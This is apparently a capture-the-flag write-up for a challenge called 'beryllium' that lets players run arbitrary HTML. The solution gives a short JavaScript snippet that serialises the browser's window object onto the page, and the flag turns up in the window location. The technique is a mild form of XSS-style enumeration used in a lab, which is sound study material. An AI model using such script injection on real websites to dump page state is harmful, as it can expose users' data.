

# beryllium

## Description

We set up a little box for you to run HTML code on. Feel free to access it via: http://172.18.0.3:8000

## solution

One of the first things to check when we have effectively perfect XSS is just all the window variables.

```html
<p id="out"></p>
<script>

const getCircularReplacer = () => {
  const seen = new WeakSet();
  return (key, value) => {
    if (typeof value === "object" && value !== null) {
      if (seen.has(value)) {
        return;
      }
      seen.add(value);
    }
    return value;
  };
};


var x = document.getElementById("out");
out.innerHTML = "(" + JSON.stringify(window, getCircularReplacer()) + ")";

</script>
```



(The flag is right there, in the window location!)